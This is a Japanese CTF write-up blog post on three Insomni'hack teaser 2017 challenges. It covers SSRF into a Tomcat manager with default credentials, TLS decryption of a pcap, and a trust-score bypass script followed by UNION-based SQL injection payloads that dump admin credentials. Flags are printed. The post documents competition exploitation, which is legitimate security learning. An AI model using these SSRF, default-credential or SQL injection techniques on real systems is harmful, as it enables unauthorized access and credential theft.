 ```yaml
---
layout: post
title: Insomni'hack teaser 2017 の write-up
categories: [ctf]
date: 2017-01-23 22:06:00 +0900
---
```


チーム Harekaze で [Insomni'hack teaser 2017](https://teaser.insomnihack.ch/) に参加しました。

最終的にチームで 350 点を獲得し、順位は 69 位 (得点 339 チーム中) でした。うち、私は 3 問を解いて 300 点を入れました。

ということで解いた問題の write-up です。今年はなるべく参加した CTF の write-up を書くよう頑張ります。

## [Web 50] smarttomcat

Latitude に 12、Longitude に 34 を入力して検索すると、`http://smarttomcat.teaser.insomnihack.ch/index.php` に `u=http://localhost:8080/index.jsp?x=12&y=34` という内容で POST をしている様子でした。

試しに `curl -d "u=http://localhost:8080/hoge" http://smarttomcat.teaser.insomnihack.ch/` を実行すると、`Apache Tomcat/7.0.68 (Ubuntu) - Error report` というタイトルの HTML が返ってきました。これで `localhost:8080` で動いているのは Apache Tomcat と分かります。

`http://localhost:8080/manager/html/` を投げると、`This request requires HTTP authentication.` という内容の HTML が帰ってきました。ユーザ名とパスワードをエスパーして `http://tomcat:tomcat@localhost:8080/manager/html/` を投げるとフラグが表示されました。

```
INS{th1s_is_re4l_w0rld_pent3st}
```

## [Forensics 50] The Great Escape - part 1

問題の pcapng 形式のファイルを pcap に変換して NetworkMiner に投げると、`ssc.key` というファイルをアップロードしている様子が確認できました。

`172.31.36.141:443` との通信をこの `ssc.key` で Wireshark を使って復号すると、`FLAG: INS{OkThatWasWay2Easy}` という文字列がありました。

```
INS{OkThatWasWay2Easy}
```

## [Web 200] Shobot

`http://shobot.teaser.insomnihack.ch/?page=article&artid=9'%20or%201;%23` にアクセスしてみると `You're not trusted enough to do this action now!` と怒られました。ソースを見ると

```javascript
var TRUST_ACTIONS = [{
    "parameter": "artid",
    "validation": "ctype_digit",
    "movement": "-30",
    "newTrust": -29
}, {
    "parameter": "artid",
    "validation": "valid_against_sql_pattern",
    "movement": "-70",
    "newTrust": -99
}]
```

とありました。また、`<!--<div class="menu-entry"><a href="?page=admin">Admin</a></div>-->` というような形でリンクがコメントアウトされていました。Cookie の PHPSESSID を削除して `Musclebot` を購入してみると

```javascript
var TRUST_ACTIONS = [{
    "parameter": null,
    "validation": "add_to_cart",
    "movement": 3,
    "newTrust": 4
}, {
    "parameter": null,
    "validation": "valid_cart",
    "movement": 10,
    "newTrust": 14
}]
```

となっていました。自動でロボットの購入をして、`newTrust` を 100 以上にしてくれるスクリプトを書きましょう。

```python
import requests
import uuid

url1 = 'http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart'
url2 = 'http://shobot.teaser.insomnihack.ch/?page=cartconfirm'

while True:
  session_id = str(uuid.uuid4())
  cookies = {
    'PHPSESSID': session_id
  }
  for _ in range(8):
    requests.get(url1, cookies=cookies)
    requests.get(url2, cookies=cookies)
  input(session_id)
```

出力されたセッション ID をセットして `/?page=article&artid=9%27%20or%201;%23` にアクセスしてみると artid が 1 のときに表示されるはずの `Shogirl` のデータが表示されました。SQLi ができるようです。

`9' or 1 order by 5;#` でカラム数を特定、5 個と分かりました。  
`9' and 0 union select 1, group_concat(table_name, 0x3a, column_name), 3, 4, 5 from information_schema.columns where table_schema=database();#` でテーブル名とカラム名を特定、`shbt_user` というテーブルが `shbt_userid` `shbt_username` `shbt_userpassword` というカラムを持つと分かりました。  
`9' and 0 union select 1, group_concat(shbt_username, 0x3a, shbt_userpassword), 3, 4, 5 from shbt_user;#` でそのテーブルからユーザ名とパスワードを抜き出しました。`sh0b0t4dm1n` というユーザは `N0T0R0B0TS$L4V3Ry` というパスワードのようです。

`/?page=admin` にこのユーザ名とパスワードでログインすると、フラグが表示されました。

```
INS{##r0b0tss!4v3ry1s!4m3}
```

## 感想

`[Web 200] The Great Escape - part 2` も解きたかったのですが、体調がよろしくなかったので諦めました。インフルエンザには気を付けましょう。